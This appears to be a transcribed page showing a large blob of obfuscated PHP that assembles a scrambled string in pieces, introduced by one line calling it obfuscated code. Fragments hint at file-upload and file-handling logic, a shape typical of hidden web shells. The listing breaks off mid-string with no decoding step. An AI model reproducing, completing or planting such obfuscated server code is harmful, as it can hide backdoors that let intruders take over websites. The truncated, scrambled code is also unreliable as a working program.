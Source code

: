 Looks like a giant blob of obfuscated PHP code.

```php
<?php
$pPziZoJiMpcu = 82;
$liGBOKxsOGMz = array();
$iyzQ5h8qf6 = "" ;
$iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e  =p   xt\" ?ltps vdfic-xetrmsx'l0em0  o\"oc&'t [r\"e _e;eV.ncxm'vToil   ,F y";
$iyzQ5h8qf6 .= "<r s -<a  \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e  I!lb>'u btde .sr ege/ han:t";
$iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0  l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c  ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n";
$iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd  dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o  \$s #nRmaeoi=oi)p te";
$iyzQ5h8qf6 .= "l[>c;>ia ew   agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$   ) 0 \ngem0=  xrtrlsdi; l E=t>ma\"d";
$iyzQ5h8qf6 .= "e{o  iafbl\nb. }ee < ptrchid>   cia''t  s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)";
$iyzQ5h8qf6 .= "e mtlur3h;o  m{\$2x odd0(  )n't[\nr)  gi[dcnat\$   d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ ";
$iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in '  (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0  p] )ogi?f)'r\n=  \n=ePrm;tfGda";
$iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n  y etd): [ & wrf (;]e\n {   cH'p\nioE=m [c.oeo\ne u  c hd; \$dd<rl.c e iohr L fca/ jf &p  ye   ";
$iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n  HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su  e &p ?' e 0 eu t%  d\$_   To_vecnm[f= nouetp \" t.";
$iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP   BrSath=-'i' a p_ol >  \$    \n cri)>/w<  \$i:on: g ";
$iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO   {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct  t  c-2\not 2dsx'0w;gcm0''\"o:% r,rS   W Lu= \"aieu\$e<opya r\nfG";
$iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o  T   0\"Fe'\".trTbu'bal)d r\n Eabh p  /o  \$rd/ E(ie ' :eSm>2stoi0; 0'4  otd):xxe's u\$=[ ";
$iyzQ5h8qf6 .= "  w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf)  xS/\n/csnf0 i0;0: uee  ee T% pw '  \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0  ";
$iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d  dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n  t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE";
$iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte  .;-ocupar\$   )\n - \"  ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o";
$iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$  ?' w=0w;eex ,.xdE'   _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no  ";
$iyzQ5h8qf6 .= "m{  ; r 0'\n'\"2  =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o  '\n i(0  ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme ";
$iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee  rl ' dse, \n Pcsh)r\"  ' \n osf'= ee ia mcne y et ' gem4  ==  wrtrd}_l.a h f\n'c;\\cc sye ]{isx  <";
$iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p  y   r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x(  en'tr\$i '}<d>ccHoe<o";
$iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z  3c.hss0=e e   u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._    (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p=  ; )gw\$[f)']ie \n\$h";
$iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n  ros'(;];l(\$}d2G\n> S<o><  =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l";
$iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe  \nire.>v E\$e\n\n  l  ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse%  i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e";
$iyzQ5h8qf6 .= "  nemi\n\"/t</sl0 i0; \noem0  ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a  T:u l n l\$.l [a) < \n)  aaal\nscp//ce }f0 \$ wao0:  s[[rds w  r;i \n>o";
$iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ /  )  md:e?tsssmr))\n( }t ndd1  \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu";
$iyzQ5h8qf6 .= "n d     ee )>ys:cai    )\ny e\"e0' m een]1 ri')   c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i  {  (rp)\nl//rxp{{ \$  p r] )- o:xxt,s ls;  =sh\n<u>\"tu";
$iyzQ5h8qf6 .= " ;.e:>ic  umb; = t\$hRa) P m v  \n  \$(u;\neb/ict\n  m{ e [ & ' d eef % ds\n{  coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e >     f'b\n<soapd> \$ o  = \"=";
$iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n     iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf  en\"hpt<metpi'sdbT c o]b ca";
```